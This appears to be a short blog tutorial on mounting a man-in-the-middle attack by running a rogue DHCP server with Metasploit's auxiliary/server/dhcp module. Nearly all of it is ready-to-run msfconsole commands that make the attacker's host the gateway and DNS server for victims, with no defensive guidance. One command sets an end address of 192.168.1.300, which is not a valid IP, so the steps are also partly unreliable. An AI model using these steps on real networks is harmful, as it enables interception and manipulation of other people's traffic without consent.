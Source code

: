 ```yaml
---
layout: post
title: Create Fake DHCP Using Metasploit 
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [fake dhcp, dhcp spoofing ]
---
```

There is a dangerous type of cyber attack called Man In The Middle. Attacker can make all network traffic go through their system.  
One of the ways of this attack is that the attacker has to make the system being attacked to recognize the attacker's system as the gateway(router)    
that sends all network traffic through here. There are many ways to do this, and the popular way is fake DHCP server.  
## 1. Network Model:  
* **gateway: 192.168.1.1** 
* **netmask: 255.255.255.0**  
* **attacker: 192.168.1.92**  


## 2. Create Fake DHCP:  
Open Metasploit:  
```
msfconsole
```  
```
use auxiliary/server/dhcp
```  
```
show options
```
![](/assets/img/2020-27-2-show-options.png)

Setup DHCP server:  
```
set dhcpipstart 192.168.1.200
```
```
set dhcpipend 192.168.1.300
```
```
set netmask 255.255.255.0
```
```
set broadcast 192.168.1.255
```
```
set router 192.168.1.92
```
```
set dnsserver 192.168.1.92
```
```
set srvhost 192.168.1.92
```
```
run
```
Network information of another machine before and after run fake DHCP:  
*before*  

![](/assets/img/2020-27-2-before.png)  

*after*  

![](/assets/img/2020-27-2-after.png)

